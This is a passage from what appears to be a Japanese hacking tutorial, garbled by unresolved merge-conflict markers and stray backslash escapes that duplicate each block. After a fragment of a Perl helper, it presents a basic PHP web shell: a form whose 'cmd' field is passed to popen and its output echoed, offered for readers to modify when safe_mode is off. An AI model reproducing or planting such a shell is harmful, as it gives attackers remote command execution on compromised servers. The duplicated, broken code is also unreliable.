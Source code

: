 exit;

sub pwd {
	use Cwd;
<<<<<<< HEAD
	$wd = Cwd::getcwd();
	unless ($wd) {
		$wd='/';
=======
	$wd \= Cwd::getcwd();
	unless ($wd) {
		$wd\='/';
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
	}

	return $wd;
}
<<<<<<< HEAD
-----


■0x04.) PHPでシェルを作って遊ぶ
=======
\-\-\-\-\-


### 0x04 PHPでシェルを作って遊ぶ
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　PHPでのリモートシェルはsafe_modeで起動されていない場合に使用できます。
以下はかなりベーシックなものです。後は自由にmodしてください。

<<<<<<< HEAD
-----
<html><body>
<form action="<? echo $_SERVER[PHP_SELF]; ?>" method="POST">
<input type="text" name="cmd" value="<?echo $_POST[cmd];?>">
<input type="submit" value="send"></form>
=======
\-\-\-\-\-
<html><body>
<form action\="<? echo $_SERVER[PHP_SELF]; ?>" method\="POST">
<input type\="text" name\="cmd" value\="<?echo $_POST[cmd];?>">
<input type\="submit" value\="send"></form>
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
<pre>

<?
if(isset($_POST[cmd]));
<<<<<<< HEAD
$fp = @popen ("$_POST[cmd]", "r");
	while (!feof ($fp)){
		$buffer = fgets($fp, 1024); 
=======
$fp \= @popen ("$_POST[cmd]", "r");
	while (!feof ($fp)){
		$buffer \= fgets($fp, 1024); 
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
		echo "$buffer";
	}
endif; 
?> 
